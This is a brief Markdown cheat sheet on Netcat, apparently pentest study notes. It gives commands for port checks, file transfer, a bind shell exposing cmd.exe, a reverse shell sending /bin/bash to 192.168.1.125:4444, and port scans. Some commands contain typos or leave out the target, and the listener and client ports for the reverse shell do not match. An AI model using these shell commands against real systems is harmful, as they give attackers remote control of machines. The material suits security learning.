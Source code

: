 # Netcat

### Test open port

`nc -nv 192.168.1.125 22`

### Listening on a TCP/UDP Port

`nc -nlvp 2222`

### Transfering file using Netcat 

#### RECEIVER

`nc - nlvp 2222 > wget.exe`

#### **SENDER** 

`nc -nv 192.168.1.125 2222`

### Bind Shell

#### LISTENER 

The netcat traditional version of Netcat \(compiled with the "-DGAPING\_SECURITY\_HOLE" flag\) enables the -e option, which executes a program after making or receiving a successful connection. 

`nc -nlvp 2222 -e cmd.exe`

With the above command, Netcat has bound TCP port 2222 to cmd.exe and will redirect any input, output, or error messages from cmd.exe 

#### CLIENT 

`nc -nv 192.168.1.125 2222`

### REVERSE SHELL

#### LISTENER

`nc - nlvp 2222`

#### CLIENT \(Send Reverse shell\) 

`nc -nv 192.168.1.125 4444 -e /bin/bash`

we use the -e option to make an application available remotely, which in this case happens to be /bin/bash

### TCP Scanning

#### Port scan on ports 3000-3999

`nc -nvv -w 1 -z 3000-3999`

### UDP Scanning

`nc -nv -u -z - w 1 3000-3999`

